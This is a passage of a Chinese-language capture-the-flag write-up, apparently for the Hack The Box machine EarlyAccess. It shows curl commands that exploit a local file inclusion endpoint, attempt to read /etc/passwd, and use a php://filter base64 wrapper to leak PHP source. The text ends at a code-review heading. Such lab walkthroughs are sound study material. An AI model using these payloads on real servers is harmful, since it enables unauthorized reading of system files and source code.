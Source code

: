 # 数据泄漏

尝试访问一个已知文件:

```
┌──(root💀kali)-[~/htb/earlyaccess]
└─# curl [http://dev.earlyaccess.htb/actions/file.php?filepath=/etc/passwd](http://dev.earlyaccess.htb/actions/file.php?filepath=/etc/passwd)<h1>ERROR:</h1>For security reasons, reading outside the current directory is prohibited!
```

尝试读取 file.php:

```
┌──(root💀kali)-[~/htb/earlyaccess]
└─# curl http://dev.earlyaccess.htb/actions/file.php?filepath=file.php 

<h2>Executing file:</h2><p>file.php</p><br><h2>Executed file successfully!
```

尝试读取 hash.php:

```
┌──(root💀kali)-[~/htb/earlyaccess]
└─# curl [http://dev.earlyaccess.htb/actions/file.php?filepath=hash.php](http://dev.earlyaccess.htb/actions/file.php?filepath=hash.php)<h2>Executing file:</h2><p>hash.php</p><br><br />
<b>Warning</b>:  Cannot modify header information - headers already sent by (output started at /var/www/earlyaccess.htb/dev/actions/file.php:18) in <b>/var/www/earlyaccess.htb/dev/actions/hash.php</b> on line <b>77</b><br /><h2>Executed file successfully!
```

这给了我们一个文件路径。就像我们在 [Timing](https://www.hackthebox.com/home/machines/profile/421) 上做的一样，我们可以对文件进行 base64 编码来检索它:

```
┌──(root💀kali)-[~/htb/earlyaccess]
└─# curl [http://dev.earlyaccess.htb/actions/file.php?filepath=php://filter/convert.base64-encode/resource=/var/www/earlyaccess.htb/dev/actions/hash.php](http://dev.earlyaccess.htb/actions/file.php?filepath=php://filter/convert.base64-encode/resource=/var/www/earlyaccess.htb/dev/actions/hash.php)<h2>Executing file:</h2>
<p>php://filter/convert.base64-encode/resource=/var/www/earlyaccess.htb/dev/actions/hash.php</p>
<br>PD9waHAKaW5jbHVkZV9vbmNlICIuLi9pbmNsdWRlcy9zZXNzaW9uLnBocCI7CgpmdW5jdGlvbiBoYXNoX3B3KCRoYXN
oX2Z1bmN0aW9uLCAkcGFiAgICBvYl9lbmRfY2xlYW4oKTsKICAgIHJldHVybiAkaGFzaDsKfQoKdHJ5CnsKICAgIGlmKGlz
<SNIP>
```

解码 base64:

```
┌──(root💀kali)-[~/htb/earlyaccess]
└─# echo "PD9waHAKaW5jbHVkZ9zZXNzaW9uLnB<SNIP>ICByZXR1cm47Cn0KPz4=" | base64 -d
```

# 散列文件代码审查
